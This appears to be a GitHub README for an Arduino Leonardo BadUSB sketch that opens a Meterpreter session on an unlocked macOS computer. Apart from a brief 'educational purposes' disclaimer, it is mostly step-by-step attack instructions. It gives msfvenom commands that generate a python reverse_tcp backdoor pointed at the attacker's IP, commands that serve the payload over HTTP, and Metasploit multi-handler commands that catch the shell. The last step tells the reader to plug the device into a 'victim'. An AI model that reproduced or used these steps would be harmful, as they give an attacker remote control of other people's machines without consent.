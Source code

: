 # Description
A simple sketch for handle MacOS meterpreter session using an Arduino Leonardo (atmega32u4)
# Disclaimer
This sketch was created only for educational purposes. This script shows the danger of leaving your computer unlocked. The author respects the rights and freedom of each person and is not responsible for your actions.
# Demonstration
MacOS desktop:
![](https://github.com/cucurucuq/arduino_leonardo_macos_meterpreter/blob/main/badusb_macos.gif)
Kali:
![](https://github.com/cucurucuq/arduino_leonardo_macos_meterpreter/blob/main/capture_session.gif)
# Usage 
We need to use Metasploit Framework and simple http server, you can use Kali Linux

1. Generate a backdoor file
```
msfvenom payload python/meterpreter/reverse_tcp LHOST=attacker's IP LPORT=8080 > /var/www/html/path/to/file
```
2. Run simple HTTP server 
```
cd /var/www/html/
python3 -m http.server 8081
```
3. Open Metasploit and start multi-handler
```
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set LHOST attacker's IP
set LPORT 8080
run
```
4. Download .ino file and Arduino IDE
5. Update attacker's IP, host, port and path to backdoor file using Arduino IDE
6. Upload this sketch to your Arduino Leonardo using Arduino IDE
7. Put your BadUSB to victim and wait a capture of meterpreter session!
